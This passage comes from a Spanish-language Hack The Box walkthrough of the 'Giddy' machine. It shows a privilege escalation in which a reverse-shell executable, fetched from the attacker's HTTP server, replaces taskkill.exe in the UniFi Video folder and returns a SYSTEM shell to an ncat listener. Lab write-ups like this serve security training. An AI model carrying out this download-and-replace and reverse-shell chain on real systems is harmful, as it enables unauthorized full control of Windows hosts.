 Abrimos una ncat para esperar la conexión, ejecutamos el modulo de python para iniciar un servidor web y descargamos el archivo:

Shell1:
``` text
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
```

Shell2:
``` text
xbytemx@laptop:~/htb/giddy/www$ python -m SimpleHTTPServer 4001
Serving HTTP on 0.0.0.0 port 4001 ...
10.10.10.104 - - [16/Feb/2019 01:24:09] "GET /r.exe HTTP/1.1" 200 -
```

Shell3:
``` text
xbytemx@laptop:~/htb/giddy$ ncat -vnlp 3001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::3001
Ncat: Listening on 0.0.0.0:3001
```

# Exploiting

Ahora solo necesitamos detener el servicio UniFiVideoService y esperar en Shell3:

Shell1:
``` text
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService
WARNING: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
WARNING: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
WARNING: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
WARNING: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
WARNING: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
WARNING: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
WARNING: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
WARNING: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
WARNING: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
```

Shell3:
``` text
xbytemx@laptop:~/htb/giddy$ ncat -vnlp 3001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::3001
Ncat: Listening on 0.0.0.0:3001
Ncat: Connection from 10.10.10.104.
Ncat: Connection from 10.10.10.104:50970.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\ProgramData\unifi-video>whoami
whoami
nt authority\system

C:\ProgramData\unifi-video>cd c:\Users\Administrator\Desktop
cd c:\Users\Administrator\Desktop
```


[10.10.10.104]: PS C:\Users\Stacy\Documents> ls
[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir
[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"